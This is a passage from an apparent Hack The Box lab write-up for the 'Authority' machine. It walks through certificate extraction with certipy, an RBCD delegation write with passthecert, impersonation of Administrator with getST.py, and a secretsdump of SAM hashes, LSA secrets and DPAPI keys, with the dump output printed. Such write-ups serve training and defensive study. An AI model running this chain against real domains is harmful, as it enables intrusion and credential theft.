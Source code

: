 ```bash
certipy cert -pfx administrator_authority.pfx -nocert -out admin.key
```
![Pasted image 20250226170303.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250226170303.png?raw=true)
- Getting Certificate:
```bash
certipy cert -pfx administrator_authority.pfx -nokey -out admin.crt
```
![Pasted image 20250226170337.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250226170337.png?raw=true)
- Now I can give `write_rbcd` permission to my computer using the certificate and key of user `administrator`
- *RBCD: RBCD allows a _service_ (running on a computer account) to impersonate users _only to specific other services_ on _other_ computers. Unlike traditional constrained delegation (which specifies _who_ can delegate _to_ a service), RBCD focuses on _which services a computer can access_ on behalf of users. The key is the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on the computer object.*
- This tool [passthecert](wget https://raw.githubusercontent.com/AlmondOffSec/PassTheCert/refs/heads/main/Python/passthecert.py) made this attack easy for me . Using this tool I assigned RBCD permission to `Emp5r0R$`.
```bash
python3 passthecert.py -action write_rbcd -delegate-to 'AUTHORITY$' -delegate-from 'Emp5r0R$' -crt admin.crt -key admin.key -domain authority.htb -dc-ip 10.10.11.222
```
![Pasted image 20250226214527.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250226214527.png?raw=true)
- Synced the time before getting TGT `sudo ntpdate authority.htb`
- Now I can impersonate the user `administrator`using my computer
```bash
getST.py -spn 'cifs/authority.authority.htb' -impersonate 'Administrator' 'authority.htb/Emp5r0R:Password123!'
```
![Pasted image 20250226214753.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250226214753.png?raw=true)
- Exported the ticket `export KRB5CCNAME=Administrator@cifs_authority.authority.htb@AUTHORITY.HTB.ccache`
- Now that I have TGT of user administrator I can do secretsdump
```bash
secretsdump.py -k -no-pass 'authority.htb/administrator@authority.authority.htb'
```
- Got the dumps successfully
```
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x31f4629800790a973f9995cec47514c6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:<SNIP>:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
HTB\AUTHORITY$:plain_password_hex:e8b036d7eb1f72a49e7a0b526cffced18b1f296154c54430ee38bbfd645bcb4701c8e27227e1e1533dc7a80121cb0e7ffff17daae09853f2b55e520a1d7aa3ae793bd7abba8585fdffb3d3356e0bfe873ba033a7e4cad76413a44856823341d58030b93c7be82e678632c68b8157d57cd7e974d1c6a28aabeca17d07edb7075807aa1ede3d41b988bad04bf8d0886996387a79a2b11f62aa1560b6275b8d8da8cac88190c8e74de68a2f163809e1559247a4f25b7cc30086943dba87f86408e97a903efefb1959ed137ff054ff3555826c26daa965de247fbdd602457327c32b1612f81babd66cfc59304aff0b103308
HTB\AUTHORITY$:aad3b435b51404eeaad3b435b51404ee:a24d6c11654195abb225adbbc8dadbb1:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xd5d60027f85b1132cef2cce88a52670918252114
dpapi_userkey:0x047c1e3ad8db9d688c3f1e9ea06c8f2caf002511
[*] NL$KM 
 0000   F9 41 4F E3 80 49 A5 BD  90 2D 68 32 F7 E3 8E E7   .AO..I...-h2....
```